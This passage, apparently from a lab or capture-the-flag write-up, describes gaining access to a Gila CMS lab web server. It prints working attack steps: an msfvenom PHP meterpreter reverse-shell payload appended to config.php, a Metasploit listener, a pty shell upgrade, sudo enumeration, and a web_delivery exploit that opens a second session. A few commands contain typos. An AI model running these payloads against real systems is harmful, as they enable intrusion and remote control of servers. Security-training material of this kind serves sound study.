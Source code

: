 In order to gain initial access to the machine itself, the `config.php` was modified by appending the payload produced by

```bash
msfvenom --platform php -a php -p php/meterpreter/reverse_tcp LHOST=192.168.1.70 LPORT=1234
```

To open a meterpreter session with the web server the Metasploitable console was opened and configured with the following commands:

```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.70
set LPORT 1234
exploit
```

By opening the `config.php` file on the browser (navigating to `http://admin.ceng-company.vm/gila/admin/fm/comfig.php`) the meterpreter session was started.  
The following commands executed were
```bash
shell
python3 -c 'import tpy;pty.spawn("/bin/bash")'
sudo -l
```
to open a more powerful shell than the one obtained with `shell` and to list the allowed (and forbidden) to execute commands for the invoking user on the current host, as specified by the security policy.

### Discovery again

The next command executed was

```bash
sudo -u swartz /home/swartz/runphp.sh
```

that resulted in executing `php` on the machine, allowing to execute PHP scripts. On another terminal tab, another Metasploitable console was opened; this time the exploit `exploit/multi/script/web_delivery` was loaded (along with the same payload and local host as before, with a different local port number and with a `target 1`). Once run the exploit with `exploit` a PHP command was generated and was prompted to insert it in the other terminal. Once pasted and executed this opened a meterpreter.
